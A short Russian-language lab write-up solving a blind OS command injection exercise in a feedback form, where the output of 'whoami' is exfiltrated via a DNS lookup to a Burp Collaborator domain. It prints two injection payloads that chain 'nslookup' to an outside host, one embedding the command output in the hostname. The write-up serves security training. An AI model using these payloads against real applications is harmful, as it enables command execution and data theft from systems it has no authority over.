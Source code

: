 В этой лабораторной работе обнаружена уязвимость слепого внедрения команд ОС в функцию обратной связи.

Приложение выполняет команду оболочки, содержащую предоставленные пользователем данные. Команда выполняется асинхронно и не влияет на ответ приложения. Невозможно перенаправить вывод в место, к которому вы можете получить доступ. Однако вы можете инициировать внеполосные взаимодействия с внешним доменом.

Чтобы решить лабораторную работу, выполните `whoami`команду и отфильтруйте вывод через DNS-запрос в Burp Collaborator. Вам нужно будет ввести имя текущего пользователя для завершения лабораторной работы.

## Дано

- уязвимость слепого внедрения команд ОС в функцию обратной связи.
- Команда выполняется асинхронно и не влияет на ответ приложения.
- Невозможно перенаправить вывод в место, к которому вы можете получить доступ.
- Можно инициировать внеполосные взаимодействия с внешним доменом.

## Задача

- выполнить `whoami`команду через DNS-запрос в Burp Collaborator.

# Решение

1. Используем payload
```
; nslookup kgji2ohoyw.web-attacker.com & 
```
Только добавим whoami
```
; nslookup `whoami`.yacq9x63aq8j4ep4gr9cv6xig9m0auyj.oastify.com &
```